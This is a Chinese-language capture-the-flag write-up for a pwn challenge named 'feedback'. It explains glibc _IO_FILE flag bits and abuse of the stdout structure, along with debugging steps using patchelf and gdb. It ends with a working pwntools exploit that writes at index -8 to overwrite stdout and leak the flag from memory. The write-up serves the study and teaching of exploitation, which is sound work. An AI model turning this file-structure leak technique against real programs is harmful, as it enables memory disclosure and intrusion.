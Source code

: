 ```yaml
---
title: feedback
date: 2023/9/27 12:00:00
tags:
    - IO arb write
---
```


## 文件分析

下载`feedback`, 保护全开  
ghidra分析为64位程序

缓冲区没有溢出，所以没法利用栈溢出等，因为可以访问stdout等，故利用`_IO_FILE`  
本题是我第一次做`_IO_FILE`，详细写写

## 前置知识

`_IO_FILE`中存在`_flags`，各标志位含义如下

```c
/* Magic numbers and bits for the _flags field.
   The magic numbers use the high-order bits of _flags;
   the remaining bits are available for variable flags.
   Note: The magic numbers must all be negative if stdio
   emulation is desired. */
#define _IO_MAGIC 0xFBAD0000 /* Magic number */
#define _OLD_STDIO_MAGIC 0xFABC0000 /* Emulate old stdio. */
#define _IO_MAGIC_MASK 0xFFFF0000
#define _IO_USER_BUF 1 /* User owns buffer; don't delete it on close. */
#define _IO_UNBUFFERED 2
#define _IO_NO_READS 4 /* Reading not allowed */
#define _IO_NO_WRITES 8 /* Writing not allowd */
#define _IO_EOF_SEEN 0x10
#define _IO_ERR_SEEN 0x20
#define _IO_DELETE_DONT_CLOSE 0x40 /* Don't call close(_fileno) on cleanup. */
#define _IO_LINKED 0x80 /* Set if linked (using _chain) to streambuf::_list_all.*/
#define _IO_IN_BACKUP 0x100
#define _IO_LINE_BUF 0x200
#define _IO_TIED_PUT_GET 0x400 /* Set if put and get pointer logicly tied. */
#define _IO_CURRENTLY_PUTTING 0x800
#define _IO_IS_APPENDING 0x1000
#define _IO_IS_FILEBUF 0x2000
#define _IO_BAD_SEEN 0x4000
#define _IO_USER_LOCK 0x8000
```

pwn中常用0xfbad1800

puts, sprintf, printf等包装函数，最后都会调用write，可以对stdout结构体进行修改，
实现leak；其中结构体中的`_chain`，在stdout中会指向stdin；在执行包装输出函数前，
会打印`_IO_write_base`到`_IO_write_ptr`范围内的字符；初始化后`_IO_write_*`
会指向结构体中的`_shortbuf`，通过覆盖最后一个字节，可以将base指向`_chain`

## 踩过的坑

一开始在我本地上跑的时候，flag是无法写入的:
read函数返回-1(val of rax)，使用`p *__errno_location()`查询errno得知，
14: Bad Address，本身读入的地址就没有w权限

后来发现zip包里含有ld和libc，
可以patchelf（这里我把这两各文件放在./libs下）

> Arch Linux可以直接pacman(yay)安装patchelf哦

gdb中要重启程序不需要q，先kill再run/start即可

```shell
patchelf patchelf --set-interpreter ./libs/ld-2.31.so --replace-needed libc.so.6 ./libs/libc-2.31.so feedback
chmod +x ./libs/* # 一定要+x！不然没有权限执行
```

patch后gdb调试发现这时flag就会放到一个匿名内存段，不会崩溃了

## 解题思路

反汇编后得知，flag放在比`puts`高0x16d2e0的地址，而`puts`的地址是随机化的，
因此可以获取libc中的任意地址然后偏移取得flag地址

在vuln函数中要输入数组索引，而索引被限定为小于4；观察.bss段布局可知，
stdout地址比`feedback_list`低，将索引输入为-8，就可以覆盖stdout写入

gdb调试后可以知道stdin与flag位置的差值

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 37325)

# payload 1
sh.sendline(b'-8') # locate stdout ptr
payload = p64(0xfbad1800) # _flags though 32b data, takes 64b space
payload += p64(0) # _IO_read_ptr，stdout不涉及输入，改成0就可以
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += b'\x08' # _IO_write_base first byte, points to _chain
# write _chain (stdin) out
sh.sendlineafter(b'back.', payload)

flag = u64(sh.recvuntil(b'Your')[1:7]+b'\0\0') - 0x1980 + 0x6700 # get stdin addr and shift to flag addr

# payload 2
sh.sendline(b'-8') # locate stdout ptr
payload = payload[:-1] # remove '\x08'
payload += p64(flag) # _IO_write_base
payload += p64(flag + 0x30) # _IO_write_ptr, unknown flag length, assuming 48
# write flag out
sh.sendlineafter(b'back.', payload)
sh.interactive()
```

Done.
